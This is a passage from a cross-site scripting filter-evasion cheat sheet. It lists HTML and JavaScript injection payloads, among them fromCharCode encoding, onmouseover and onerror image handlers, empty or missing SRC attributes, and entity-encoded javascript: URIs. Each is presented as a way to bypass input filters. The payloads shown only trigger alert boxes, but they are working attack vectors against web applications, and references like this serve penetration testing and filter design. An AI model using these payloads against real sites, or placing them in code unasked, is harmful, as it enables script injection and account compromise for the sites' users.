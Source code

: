 ```html
<IMG """>
<script>
  alert('XSS');
</script>
"\>
```

## fromCharCode

If no quotes of any kind are allowed you can `eval()` a `fromCharCode` in JavaScript to create any XSS vector you need:

```html
<img src="javascript:alert(String.fromCharCode(88,83,83))" />
```

## Default SRC Tag to Get Past Filters that Check SRC Domain

This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like `onblur`, `onclick` giving you an extensive amount of variations for many injections listed here. Submitted by David Cross .

```html
<img src="#" onmouseover="alert('xxs')" />
```

## Default SRC Tag by Leaving it Empty

```html
<img src="onmouseover" ="alert('xxs')" />
```

## Default SRC Tag by Leaving it out Entirely

```html
<img onmouseover="alert('xxs')" />
```

## On Error Alert

```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

## IMG onerror and JavaScript Alert Encode

```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```
